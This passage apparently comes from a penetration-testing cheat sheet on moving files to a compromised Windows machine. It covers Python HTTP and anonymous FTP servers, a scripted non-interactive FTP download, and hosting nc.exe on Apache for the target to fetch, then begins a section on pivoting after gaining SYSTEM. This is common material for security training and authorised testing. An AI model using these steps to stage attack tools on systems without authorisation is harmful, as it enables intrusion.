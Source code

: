 Creating a server with python3

```shell
python -m http.server
```

Creating a server with python2

```shell
python -m SimpleHTTPServer 80
```

#### FTP

You need to create a FTP server

* Server Linux
Allow anonymous

```shell
python -m pyftpdlib -p 21 -u anonymous -P anonymous
```

* Windows Client

```shell
ftp
open target_ip port
open 192.168.1.22 21
```

we can simply run ftp -s:ftp_commands.txt and we can download a file with no user interaction.

like this:

```shell
C:\Users\kitsunesec\Desktop>echo open 10.9.122.8>ftp_commands.txt  
C:\Users\kitsunesec\Desktop>echo anonymous>>ftp_commands.txt  
C:\Users\kitsunesec\Desktop>echo whatever>>ftp_commands.txt
C:\Users\kitsunesec\Desktop>ftp -s:ftp_commands.txt  
```

#### Apache Server

* server 
Put your files into /var/www/html 

```shell
cp nc.exe /var/www/html
systemctl start apache2
```

* client

Get via web browser, wget or powershell...

### Windows Pivoting

#### Openssh for Tunneling

Once you got SYSTEM on the target machine. download: [openssh_for_windows](https://github.com/PowerShell/Win32-OpenSSH/releases)
